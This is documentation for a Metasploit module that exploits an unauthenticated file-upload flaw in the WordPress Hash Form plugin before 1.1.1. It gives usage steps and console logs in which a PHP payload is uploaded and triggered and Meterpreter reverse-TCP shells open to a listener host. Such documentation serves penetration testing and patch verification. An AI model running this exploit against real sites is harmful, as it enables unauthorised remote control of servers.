 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in WordPress Hash Form
plugin, versions prior to 1.1.1.
The vulnerability is due to an unauthenticated file upload flaw in the plugin.
To replicate a vulnerable environment for testing:

1. Install WordPress.
2. Download and install the Hash Form plugin, ensuring the version is below 1.1.1.
3. Verify that the plugin is activated and accessible on the local network.
4. Create any form

## Verification Steps

1. Set up a WordPress instance with the Hash Form plugin (version < 1.1.1).
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_hash_form_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No option

## Scenarios

### Successful Exploitation Against Local WordPress with Hash Form 1.10

**Setup**:

- Local WordPress instance with Hash Form version 1.1.0.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wp_hash_form_rce
```
3. Set `RHOSTS` to the local IP (e.g., 192.168.1.11).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`

```
msf6 > search wp_hash_form_rce

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_hash_form_rce    2024-05-23       excellent  Yes    WordPress Hash Form Plugin RCE
   1    \_ target: Automatic                 .                .          .      .
   2    \_ target: PHP In-Memory             .                .          .      .
   3    \_ target: Unix/Linux Command Shell  .                .          .      .
   4    \_ target: Windows Command Shell     .                .          .      .


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/wp_hash_form_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command Shell'

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_hash_form_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_hash_form_rce) > set rport 8080
rport => 8080
msf6 exploit(multi/http/wp_hash_form_rce) > set target 1
target => 1
msf6 exploit(multi/http/wp_hash_form_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: c037ee0b47
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to http://localhost:8080/wp-content/uploads/hashform/temp/zumchnzt.php
[*] Triggering the payload at http://localhost:8080/wp-content/uploads/hashform/temp/zumchnzt.php...
[*] Sending stage (39927 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.20.0.3:52596) at 2024-05-28 17:52:51 +0200

meterpreter > sysinfo 
Computer    : 92b664be9b0c
OS          : Linux 92b664be9b0c 5.15.0-91-generic #101-Ubuntu SMP Tue Nov 14 13:30:08 UTC 2023 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      KtElgOyozC       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       5555             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_hash_form_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: c037ee0b47
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to http://localhost:8080/wp-content/uploads/hashform/temp/roeylnhj.php
[*] Triggering the payload at http://localhost:8080/wp-content/uploads/hashform/temp/roeylnhj.php...
[*] Sending stage (3045380 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.20.0.3:53478) at 2024-05-28 18:03:35 +0200

meterpreter > sysinfo
Computer     : 172.20.0.3
OS           : Debian 12.5 (Linux 5.15.0-91-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module attempts to retrieve a nonce from the local server.
- It then uploads and executes the payload.
- If successful, control over the local WordPress instance is gained, depending on the payload used.
